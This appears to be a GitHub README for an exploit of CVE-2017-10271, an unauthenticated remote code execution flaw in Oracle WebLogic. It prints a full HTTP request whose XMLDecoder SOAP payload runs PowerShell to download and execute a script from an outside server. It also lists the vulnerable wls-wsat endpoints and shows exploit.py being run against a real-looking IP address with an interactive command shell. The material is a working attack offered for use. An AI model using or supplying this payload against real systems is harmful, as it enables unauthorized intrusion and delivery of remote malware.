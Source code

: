 CVE-2017-10271 identification and exploitation. Unauthenticated Weblogic RCE.

https://nvd.nist.gov/vuln/detail/CVE-2017-10271

https://www.oracle.com/technetwork/topics/security/cpuoct2017-3236626.html


```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: SOMEHOSTHERE
Content-Length: 1226
content-type: text/xml
Accept-Encoding: gzip, deflate, compress
Accept: */*
User-Agent: python-requests/2.2.1 CPython/2.7.6 Linux/3.19.0-25-generic

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
	<soapenv:Header>
		<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
			<java version="1.8.0_151" class="java.beans.XMLDecoder"> 
			<void class="java.lang.ProcessBuilder"> 
				<array class="java.lang.String" length="3">
				<void index = "0">
					<string>cmd</string>
				</void>
				<void index = "1"> 
					<string>/c</string> 
				</void>
				<void index = "2">
					<string>powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString(&apos;http://SOMESERVERHERE/GOTPAYLOAD.ps1&apos;)</string>
				</void>
			</array>
			<void method="start"/>
			</void>
			</java>
			</work:WorkContext> 
	</soapenv:Header> 
<soapenv:Body/>
</soapenv:Envelope>
```


wls-wsat endpoint list
```
CoordinatorPortType
RegistrationPortTypeRPC
ParticipantPortType
RegistrationRequesterPortType
CoordinatorPortType11
RegistrationPortTypeRPC11
ParticipantPortType11
RegistrationRequesterPortType11
```

Useage:
```
$ python exploit.py http://59.56.19.200/
Eneter your command here: dir c:\
```

